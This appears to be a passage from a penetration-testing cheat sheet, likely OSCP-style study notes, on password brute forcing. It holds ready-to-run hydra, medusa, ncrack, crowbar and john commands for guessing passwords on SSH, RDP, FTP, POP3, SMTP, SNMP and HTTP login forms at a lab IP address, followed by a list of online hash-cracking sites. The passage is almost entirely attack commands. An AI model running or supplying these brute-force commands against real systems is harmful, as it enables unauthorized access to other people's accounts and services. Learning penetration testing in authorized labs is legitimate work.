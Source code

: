 ## Password brute force - last resort

Offline local resources

```
cewl
hash-identifier
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V

# SIMPLE LOGIN GET
hydra -L cewl_fin_50.txt -P cewl_fin_50.txt 10.11.1.111 http-get-form "/~login:username=^USER^&password=^PASS^&Login=Login:Unauthorized" -V

# GET FORM with HTTPS
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.111 -s 443 -S https-get-form "/index.php:login=^USER^&password=^PASS^:Incorrect login/password\!"

# SIMPLE LOGIN POST
hydra -l root@localhost -P cewl 10.11.1.111 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-120&User=^USER^&Password=^PASS^:F=Login failed" -I

# API REST LOGIN POST
hydra -l admin -P /usr/share/wordlists/wfuzz/others/common_pass.txt -V -s 80 10.11.1.111 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials" -t 64


```

Online crackers

```
https://hashkiller.co.uk/Cracker
https://www.cmd5.org/
https://www.onlinehashcrack.com/
https://gpuhash.me/
https://crackstation.net/
https://crack.sh/
https://hash.help/
https://passwordrecovery.io/
http://cracker.offensive-security.com/
```

# **Vulnerability analysis**
